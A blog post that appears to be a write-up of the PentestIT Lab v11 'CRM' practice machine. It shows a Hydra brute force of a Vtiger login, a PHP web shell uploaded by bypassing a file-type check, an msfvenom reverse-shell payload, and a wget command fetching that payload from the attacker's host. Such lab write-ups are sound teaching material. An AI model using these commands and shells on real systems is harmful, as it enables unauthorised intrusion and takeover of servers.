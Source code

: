 ```yaml
---
layout: post
title:  "PentestIT Lab v11 - CRM"
date:   2018-03-04 00:46:00 -0800
categories: Pentesting CTF
---
```

Opening the browser and going to 192.168.101.10 (TCP port 80), shows a welcome page for the lab. This seems to be a blog, and further look into the HTML code, I can see references to Wordpress links. Using WPscan, I learn this site is running the Kittycatfish plugin, which is vulnerable to a SQLi ([WordPress Plugin KittyCatfish 2.2 - SQL Injection][kittycatfish_vuln]). My attempts to exploit this, either manually or through SQLmap, are unsuccessful. I suspect there's some WAF in the middle as I'm getting forbidden responses when using SQLi attempts and also when bruteforcing the Wordpress admin login form. I move on to find something else as with an WAF in the middle, it will be difficult.

From the HTML code, I see a link to http://192.168.101.10:88. Going to the link, I can see there's a Vtiger 6.3.0 web application. Further research, tells me this version is vulnerable to an [Authenticated Remote Code Execution][vtiger_vuln]. Through some web searching, I learn the default credentials are admin:admin, however, I get a invalid username or password. Time to brute force the admin's password.

I launch Burp and configure my browser to use it has a proxy. I then submit the login form with admin:admin credentials. From the Burp history, I get the POST data and the URL path I need to use. I then launch Hydra with the rockyou-60.txt wordlist from [Seclists][seclists]:

{% highlight bash %}
hydra 192.168.101.10 -s 88 http-post-form "/index.php?module=Users&action=Login:__vtrftk=sid%3A0e9ffbd5aee2325cb3254c8d41253bbd7c4bd27a%2C1518930935&username=^USER^&password=^PASS^:error=1" -l admin -P rockyou-60.txt -t 20
{% endhighlight %}

In this login form, when the login fails, you get a 302 redirect to the login page again with the message "Invalid username or password". However, Hydra doesn't follow redirects, but I've noticed that on the 302 response, the Location header contains a error=1 parameter. That's why I'm using it has the failed string.

Going back to the password brute force, after several minutes, Hydra spits the known password: <b>blackstar</b>. Now, with an authenticated session in the Vtiger CRM application, I can try to use the previous exploit found:

I create a file 1.php with the content: {% highlight php %}<? passthru($_GET['cmd']); ?>{% endhighlight %}

This uses the PHP short tags, as the application is checking if the content contains <?php.

I then go to Settings(Small gear on the top right) -> CRM Settings -> Templates -> Company Details -> Edit. I then click the Browse button to add my 1.php file, but first, I set Burp to intercept the form submit. However, there seems to be some Javascript to detect the file extension, which only permits images. I then change my 1.php to 1.jpg and submit the form again, this time with Burp intercept off. I then go to Burp's history and send that POST request to Repeater. I then change the content of the filename from 1.jpg to 1.php and send the request again, maintaing the content type as jpeg:

{% highlight php %}
...
CompanyDetailsSave
-----------------------------2787963551806245971250936184
Content-Disposition: form-data; name="logo"; filename="1.php"
Content-Type: image/jpeg

<? passthru($_GET['cmd']); ?>
...
{% endhighlight %}

Accessing the URL path <code>/test/logo/1.php?cmd=whoami</code>, will tell me that I'm running with www-data user. Sending <code>/test/logo/1.php?cmd=uname -a</code>, I can see this is a Debian Linux system.

Now it's time to get a proper foothold into the system, so I can start doing proper enumeration. I generate a meterpreter with command:

{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<MY_VPN_IP> LPORT=443 -f elf > 1.elf
{% endhighlight %}

Launch a <code>python -m SimpleHTTPServer</code> to serve the meterpreter and from the browser execute <code>/test/logo/1.php?cmd=wget http://MY_IP:8000/1.elf -O /tmp/1.elf</code>. However, I get a gateway timeout, looks like the server is not allowing egress connections to TCP port 8000. I then tried with TCP port 80 and still no connection. Tried ping (<code>test/logo/1.php?cmd=ping -c1 -w1 MY_IP</code>), and I get no response, so in the end, it looks like there's more restrictions on the egress traffic. Looking at the file /etc/iptables.save (<code>/test/logo/1.php?cmd=cat /etc/iptables.save</code>), I can see it's allowing egress traffic only to 172.16.0.11 and 172.16.0.254:

<pre>
# Generated by iptables-save v1.4.14 on Thu Jul  4 02:14:19 2013
*filter
:INPUT ACCEPT [194:23274]
:FORWARD ACCEPT [1268:354653]
:OUTPUT ACCEPT [155:40731]

## state,lo
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -i lo -j ACCEPT

## icmp
-A INPUT -p icmp --icmp-type 8 -j ACCEPT

## ssh
-A INPUT -p tcp --dport 22 -j ACCEPT

## www
-A INPUT -p tcp --dport 80 -j ACCEPT

### DROP OTHER
-A INPUT -j DROP

## OUT
-A OUTPUT -d 172.16.0.11 -j ACCEPT
-A OUTPUT -d 172.16.0.254 -j ACCEPT

-A OUTPUT -d 172.16.0.0/24 -j DROP
</pre>

At this point, my only option was to enumerate using the web shell. I've noticed that after a few minutes, my shell was gone, so I had to upload it again. Having the request ready in Burp Repeater was handy, because I had to upload the web shell many times.

From the webshell I go to <code>/var/www/rce_token.txt</code> and get the CRM token.

[kittycatfish_vuln]: https://www.exploit-db.com/exploits/41919/
[vtiger_vuln]: https://www.exploit-db.com/exploits/38345/
[seclists]: https://github.com/danielmiessler/SecLists/tree/master/Passwords
